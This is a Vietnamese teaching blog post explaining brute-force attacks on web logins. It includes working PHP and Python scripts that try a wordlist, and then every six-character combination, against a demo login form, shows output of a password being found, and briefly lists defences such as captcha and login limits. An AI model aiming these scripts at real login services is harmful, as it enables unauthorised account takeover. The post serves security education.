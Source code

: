 ```yaml
---
layout: post
title: Hiểu thêm về tấn công brute force
date: 2015-08-23 11:28
categories: CSATT attack
---
```

Hôm trước thầy Tuấn Anh đã nhắc đến phương pháp này, tuy nhiên tôi sẽ làm rõ thêm một số vấn đề, đây không phải là một bài giải cặn kẽ cho các bạn, nó mang tính định hướng nhiều hơn.

# Code sample
Giả sử tôi có trang đăng nhập là http://tqk.itps.com.vn/demo.php. tôi sẽ tiến hành brute mật khẩu của user: test@demo.brute

PHP:
{% highlight php startinline=true %}
<?php
$dic = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo'];
foreach ($dic as $password) {
  $email = 'test@demo.brute';
  $url = 'http://tqk.itps.com.vn/demo.php';
  $data_string = 'email=' .urldecode($email). '&password=' .urlencode($password);
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_POST, 1);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $data_string);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  $result = curl_exec($ch);
  curl_close($ch);
  if (strpos($result, 'talent') == false){
    echo "<pre> Password: " .$password. " => Wrong password!</pre>";
  } else{
    echo "<pre> Password: " .$password. " => You got it.</pre>";
  }
  
  }
?>
{% endhighlight %}

Run test:

{% raw %}
Password: demo => Wrong password!
Password: 123 => Wrong password!
Password: 1234 => Wrong password!
Password: 123456 => Wrong password!
Password: test => Wrong password!
Password: demo1 => Wrong password!
Password: demo123 => You got it.
Password: 123demo => Wrong password!
{% endraw %}
Python:

{% highlight python linenos %}
import requests
pwlist = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo']
url = 'http://tqk.itps.com.vn/demo.php'
for password in pwlist:
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  if('talent' in req.text):
    print('Password found:', password)
{% endhighlight %}


{% raw %}
Admin@LEOK-PC
$ py demobrute.py
Password found: demo123
{% endraw %}
Trên đây tôi đã demo cho các bạn phương pháp brute bằng từ điển - dictionary hay wordlist ( từ điển ở đây chính là array/list tôi đưa vào, thông thường thì lấy từ điển từ file). tôi sẽ không đi sâu vào code ( nếu như một số bạn không hiểu), mà chủ yếu là để các bạn nhìn ra rằng phương pháp tấn công này được áp dụng như thế nào. Nói thêm rằng thông thường các worldlist sẽ được khởi tao thông qua các thuật toán, pattern để giảm bớt các mật khẩu "vô nghĩa", nhưng không phải luôn luôn như thế.

Việc tấn công có hay không sử dụng từ điển đều được hoạt động trên cùng cơ chế, tức là bạn sẽ phải generate ra các password theo pattern ( bao nhiêu kí tự, thường hay hoa, hay giả sử đã biết kí tự gì đó...v.v..) rồi lần lượt thực hiện việc đăng nhập và dựa vào kết quả trả về để xác định mật khẩu đúng.

Xem ví dụ sau, ở đây tôi sử dụng itertools trong python để generate wordlist:

{% highlight python linenos %}
import requests
import itertools
import time
charset = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = 'http://tqk.itps.com.vn/demo.php'
res = itertools.product(charset, repeat=6)
start_time = time.time()
for i in res:
    password = ''.join(i)
    payload = {'email':'test@demo.brute', 'password':password}
    req = requests.post(url, data=payload)
    print('Trying password: ', password)
    if('talent' in req.text):
        print('Password found:', password)
        print('\nTaken %s seconds to crack very easy password' %time.time() - start_time)
    else:
        print('Failed.....')
{% endhighlight %}

Và khi tôi chạy đoạn code này, với một máy tính "bình dân" của tôi, ước tính phải mất đến hơn 3 năm để có thể duyệt hết được số lượng hơn 2 tỉ mật khẩu đơn giản có độ dài 7 kí tự chỉ bao gồm chữ cái thường và chữ số. ( Ở đây tôi không đề cập đến việc perfomance, multithreading, đường truyền, sử dụng GPU và một số vấn đề khác). Một con số đáng kể.

Đa số các tấn công brute force áp dụng vào các dịch vụ đăng nhập web/server ( via GET/POST) và tấn công vào các mã hóa, hàm băm ( sau này các bạn sẽ được tìm hiểu về hàm băm trong môn CSLT Mật mã), SSH, cùng một số sản phẩm khác.

Tôi sẽ nói qua về việc brute hàm băm (sử dụng thuật toán "một chiều" tức là có mã hóa nhưng không có giải mã), đó là chúng ta sử dụng các bản rõ, nằm trong wordlist, rồi thực hiện mã hóa sau đó so sánh với bãn mã cần crack. Tất nhiên, các mật mã hàm băm vẫn có xác suất trùng lặp, có nghĩa là có thể có 2 bản rõ nhưng cùng một bản mã, tuy nhiên xác suất này rất nhỏ, đủ để người ta chấp nhận được.

Có thể hiểu việc brute giống như các bạn đang thử làm một điều gì đó có phù hợp với tôi hay không, như thử giày, thử công việc, thử người yêu ;))) Đại khái là như thế đó.

# Protection

Vậy chắc chắn tấn công brute force sẽ phá vỡ tính chất của ATTT của một hệ thống thông tin nếu không có biện pháp khắc phục. Về cơ bản, các máy chủ có nhiều cách để bảo về khỏi các cuộc tấn công đơn giản này bằng cách cấu hình rule cho firewall, hoặc cũng có thể áp dụng ngay trên các ứng dụng đăng nhập, như captcha là một ví dụ điển hình, hay việc giới hạn số lần đăng nhập thất bại trong khoảng thời gian nào đó. Bạn đọc có thể tự tìm hiểu thêm.

# More information

* Trong suốt bài viết tôi không hề muốn sử dụng đến từ "mật khẩu", vì đơn giản, chúng ta đang học một môn chuyên nghành, và tôi nghĩ "mật khẩu" không phải là từ có thể thay thế cho "password".

* Trên bài viết tôi có đề cập đến việc sử dụng code cho việc brute force, tuy nhiên, hiện tại có rất nhiều công cụ mạnh mẽ giúp chúng ta tạo wordlist, crack hash, crack network password có thể kể đến như [John The Ripper](http://www.openwall.com/john/), [Hashcat](http://hashcat.net/oclhashcat/), [Hydra](https://github.com/vanhauser-thc/thc-hydra), [burpsuite](https://portswigger.net/burp/), [cewl](https://digi.ninja/projects/cewl.php)

* Toàn bộ code các bạn có thể xem [tại đây](https://github.com/bytekve/bytekve.github.io/tree/master/codesample).